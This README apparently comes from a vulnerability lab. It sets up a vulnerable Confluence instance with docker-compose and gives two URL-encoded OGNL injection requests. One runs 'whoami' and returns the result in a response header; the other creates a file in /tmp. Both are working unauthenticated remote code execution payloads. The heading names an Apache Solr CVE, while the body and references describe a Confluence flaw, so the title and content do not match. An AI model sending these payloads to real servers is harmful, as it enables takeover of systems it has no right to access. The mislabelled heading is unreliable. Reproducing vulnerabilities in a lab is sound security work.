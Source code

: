# Apache Solr Remote Code Execution Vulnerability(CVE-2019-0193)

## Introduction

Atlassian has been made aware of current active exploitation of a critical severity unauthenticated remote code execution vulnerability in Confluence Data Center and Server. The `OGNL` injection vulnerability allows an unauthenticated user to execute arbitrary code on a Confluence Server or Data Center instance. 

## Usage

Run

```bash
docker-compose up
```

Follow the installation guild and setup the database with

```
user: postgres
passwd: postgres
database: confluence
```

Sending the request

```http
GET /%24%7B(Class.forName(%22jav%22+%22ax.script.ScriptEngineManager%22).newInstance().getEngineByName(%22js%22).eval(%22var%20p%20%3D%20org.apache.commons.io.IOUtils.toString(java.lang.Runtime.getRuntime().exec('whoami').getInputStream(),'utf-8')%3B%20com.opensymphony.webwork.ServletActionContext.getResponse().setHeader('X-Cmd-Response',p)%3B%22))%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```

![](images/screenshot.jpg)

or a brief poc but witout command execution reply in response.

```http
GET /%24%7B(Class.forName(%22java%22+%22.lang.Runtime%22).getMethod(%22getRuntime%22,%20null).invoke(null,%20null).exec(%22touch%20/tmp/success%22))%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```

## Reference

1. https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html
2. https://jira.atlassian.com/browse/CONFSERVER-79016